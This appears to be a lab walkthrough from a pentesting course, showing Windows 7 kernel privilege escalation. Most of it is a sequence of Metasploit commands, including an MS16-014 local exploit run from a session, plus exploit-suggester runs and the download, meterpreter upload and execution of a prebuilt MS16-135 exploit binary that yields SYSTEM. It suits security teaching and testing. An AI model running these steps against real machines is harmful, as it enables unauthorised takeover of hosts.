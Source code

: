 #### Tools & environment

* **Windows-Exploit-Suggester** : this tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It alse notifies the user if there are public exploit and Metasploit modules available for the missing bulletings
* **Windows-Kernel-Exploits** : collection of Windows Kernel exploit sorted by CVE.

_Note : the techniques demonstrated in this video are performed on a Windows 7 SP1 VM._

#### Demonstration

```
msf6> sessions
```

```
msf6> getuid
msf6> getprivs
msf6> getsystem

msf6> search suggester
msf6> use post/multi/recon/local_exploit_suggester
msf6> set session 3
msf6> run
```

```
msf6> use exploit/windows/local/ms16_014_wmi_recv_notif
msf6> set session 3
msf6> set lport 4422
msf6> exploit
```

Execute the `systeminfo` command and copy-paste in the file `win7.txt`. Clone the git repository Windows-Exploit-Suggester.

```bash
john@attacker> cd Windows-Enum/Windows-Exploit-Suggester
john@attacker> ./windows-exploit-suggester.py --update
john@attacker> ./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt
```

There is a good repository to find kernel exploit : https://github.com/SecWiki/windows-kernel-exploits/blob/master/.

```bash
john@attacker> wget -O 41015.exe https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.exe

meterpreter> cd C:\Temp
meterpreter> upload ~/Downloads/41015.exe
meterpreter> shell

C:\Temp> .\41015.exe
C:\Temp> .\41015.exe 7

C:\Temp> whoami  # nt authority\system
```
